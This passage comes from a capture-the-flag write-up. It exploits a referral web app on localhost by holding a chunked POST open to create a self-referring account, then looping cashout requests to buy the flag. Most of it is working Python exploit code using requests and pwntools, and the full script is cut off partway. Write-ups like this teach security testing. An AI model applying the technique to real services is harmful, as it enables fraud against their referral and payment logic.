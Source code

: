 {{< notice tip >}}
I used Transfer-Encoding: chunked because I didn't bother calculating the length of the code. You can use Content-Length header just fine
{{< /notice >}}

2. Nice, we got the token (our user identifier). Now, let's create a code that refers to this user:

```python
code = requests.get('http://localhost:3000/code', cookies={'token': token}).text.split('<strong>')[1].split('</strong>')[0]
```

3. Complete the request with the chunked data, including `refer=code`:

```python
code_chunk = b'refer=' + code.encode()

# Complete request to create a self-referring account
connection.send(
    (
        f'{len(code_chunk):X}\r\n'.encode() +
        code_chunk +
        b'\r\n' +
        b'0'
        b'\r\n' # end of the zero chunk
        b'\r\n' # end of the whole body
    )
)
```

This will trigger the "end" event and create a self-referring user. The next steps are straightforward:

```python
# Create an account that increase our original account's refer count (0 * anything = 0 innit xD)
requests.post('http://localhost:3000/new', data={'refer':code})

# Increase the ref count by 1.5
for _ in range(70):
    requests.get('http://localhost:3000/cashout', cookies={'token': token})

# Buy the FLAG
flag = requests.get('http://localhost:3000/buy', cookies={'token': token}).text
print(flag)
```

Putting everything together, the complete script is as follows:

```python
#!/usr/bin/env python3

import requests
from pwn import *

# Creates a TCP or UDP-connection to a remote host. It supports both IPv4 and IPv6.
connection = remote('localhost', 3000)

# Send an HTTP request without closing (server doesn't emit 'end' event)
connection.send(
    (
        b'POST /new HTTP/1.1\r\n'
        b'Host: localhost\r\n'
        b'Transfer-Encoding: chunked\r\n'
        b'Content-Type: application/x-www-form-urlencoded\r\n'
        b'\r\n'
    )
)
token = connection.recv().decode().split('token=')[1].split('\r\n')[0]

```